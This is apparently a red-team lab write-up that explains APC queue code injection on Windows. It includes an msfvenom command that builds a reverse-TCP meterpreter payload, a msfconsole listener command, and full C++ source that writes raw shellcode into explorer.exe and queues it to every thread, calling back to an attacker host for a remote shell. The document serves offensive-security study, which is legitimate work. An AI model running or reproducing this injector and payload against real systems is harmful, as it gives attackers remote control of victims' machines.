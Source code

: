 ```yaml
---
layout: post
title: "apc queue code injection"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-injection-process-injection/
---
```


# APC Queue Code Injection

This lab looks at the APC (Asynchronous Procedure Calls) queue code injection - a well known technique I had not played with in the past.

Some simplified context around threads and APC queues:

* Threads execute code within processes
* Threads can execute code asynchronously by leveraging APC queues
* Each thread has a queue that stores all the APCs
* Application can queue an APC to a given thread (subject to privileges)
* When a thread is scheduled, queued APCs get executed
* Disadvantage of this technique is that the malicious program cannot force the victim thread to execute the injected code - the thread to which an APC was queued to, needs to enter/be in an [alertable](apc-queue-code-injection.md#alertable-state) state (i.e [`SleepEx`](https://msdn.microsoft.com/en-us/library/ms686307\(v=VS.85\).aspx)), but you may want to check out [Shellcode Execution in a Local Process with QueueUserAPC and NtTestAlert](shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert.md)

## Execution

A high level overview of how this lab works:

* Write a C++ program apcqueue.exe that will:
  * Find explorer.exe process ID
  * Allocate memory in explorer.exe process memory space
  * Write shellcode to that memory location
  * Find all threads in explorer.exe
  * Queue an APC to all those threads. APC points to the shellcode
* Execute the above program
* When threads in explorer.exe get scheduled, our shellcode gets executed
* Rain of meterpreter shells

Let's start by creating a meterpreter shellcode to be injected into the victim process:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-26 111814.png>)

I will be injecting the shellcode into `explorer.exe` since there's usually a lot of thread activity going on, so there is a better chance to encounter a thread in an alertable state that will kick off the shellcode. I will find the process I want to inject into with `Process32First` and `Process32Next` calls:

![](<../../.gitbook/assets/Annotation 2019-05-26 152927.png>)

Once explorer PID is found, we need to get a handle to the explorer.exe process and allocate some memory for the shellcode. The shellcode is written to explorer's process memory and additionally, an APC routine, which now points to the shellcode, is declared:

![](<../../.gitbook/assets/Annotation 2019-05-26 151203.png>)

If we compile and execute `apcqueue.exe`, we can indeed see the shellcode gets injected into the process successully:

![](<../../.gitbook/assets/Annotation 2019-05-26 133126.png>)

A quick detour - the below shows a screenshot from the Process Hacker where our malicious program has a handle to explorer.exe - good to know for debugging and troubleshooting:

![](<../../.gitbook/assets/Annotation 2019-05-26 133312.png>)

Back to the code - we can now enumerate all threads of explorer.exe and queue an APC (points to the shellcode) to them:

![sleep for some throttling](<../../.gitbook/assets/Annotation 2019-05-26 151757.png>)

Switching gears to the attacking machine - let's fire up a multi handler and set an `autorunscript` to migrate meterpreter sessions to some other process before they die with the dying threads:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
set autorunscript post/windows/manage/migrate
```
{% endcode %}

Once the `apcqueue` is compiled and run,  a meterpreter session is received - the technique worked:

![](<../../.gitbook/assets/Annotation 2019-05-26 134126.png>)

## States

As mentioned earlier, in order for the APC code injection to work, the thread to which an APC is queued, needs to be in an `alertable` state.&#x20;

To get a better feel of what this means, I created another project called `alertable` that only did one thing - slept for 60 seconds. The application was sent to sleep using (note the important second parameter):

```cpp
DWORD SleepEx(
  DWORD dwMilliseconds,
  BOOL  bAlertable
);
```

Let's put the new project to sleep in both alertable and non-alertable states and see what heppens when an APC is queued to it.

### Alertable State

Let's compile the `alertable.exe` binary with `bAleertable = true` first and then launch the `apcqueue.exe`.&#x20;

Since `alertable.exe` was in an alertable state, the code got executed immediately and a meterpreter session was established:

![](../../.gitbook/assets/apcqueueinjection.gif)

### Non-Alertable State

Now let's recompile `alertable.exe` with `bAlertable == false` and try again - shellcode does not get executed:

![](../../.gitbook/assets/apcqueueinjection-nonalertable.gif)

## Powershell -sta

An interesting observation is that if you try injecting into powershell.exe which was started with a `-sta` switch (Single Thread Apartment), we do not need to spray the APC across all its threads - main thread is enough and gives a reliable shell:

![](../../.gitbook/assets/apc-powershell.gif)

Note that the injected powershell process becomes unresponsive.&#x20;

## Code

{% code title="apcqueue.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	std::vector<DWORD> threadIds;
	SIZE_T shellSize = sizeof(buf);
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}
	
	victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);

	if (Thread32First(snapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
	
	for (DWORD threadId : threadIds) {
		threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
		Sleep(1000 * 2);
	}
	
	return 0;
}
```
{% endcode %}

## References

{% embed url="https://blogs.microsoft.co.il/pavely/2017/03/14/injecting-a-dll-without-a-remote-thread/" %}

{% embed url="http://rinseandrepeatanalysis.blogspot.com/2019/04/early-bird-injection-apc-abuse.html?m=1" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/sync/asynchronous-procedure-calls" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc" %}
@spotheplanet
